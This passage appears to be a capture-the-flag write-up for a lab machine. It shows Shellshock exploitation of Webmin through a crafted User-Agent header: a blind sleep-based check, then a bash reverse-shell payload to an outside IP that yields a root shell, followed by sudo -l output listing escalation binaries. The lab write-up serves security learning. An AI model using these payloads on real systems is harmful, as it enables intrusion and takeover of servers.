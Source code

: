 In the response we are not seeing any hello, so we can try blind method to check if webmin is vulnerable to shellshock.  
If we perform a request we can se that the response comes in about 100 ms (more or less).  
So, now we can try to perform the following request:
```
GET / HTTP/1.1
Host: 10.10.10.7:10000
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4; ARI=7fb5h6ukggramuhober09osbe4; testing=1
User-Agent: () { :; };sleep 10
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.7:10000/
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```
Using a sleep 10 we can see that the response come out in ~10000 ms.  
With this blind method we checked that code can be executed on server side.  
Now we can perform the following request and get code execution.
```
GET / HTTP/1.1
Host: 10.10.10.7:10000
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4; ARI=7fb5h6ukggramuhober09osbe4; testing=1
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.18/4444 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.7:10000/
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```
and we can get a shell as root!
```
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.7] 45241
bash: no job control in this shell
[root@beep webmin]#
```

## Root
When we log in as user asterisk we can perform a simple ```sudo -l``` and check our capabilities against binaries:
```
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
```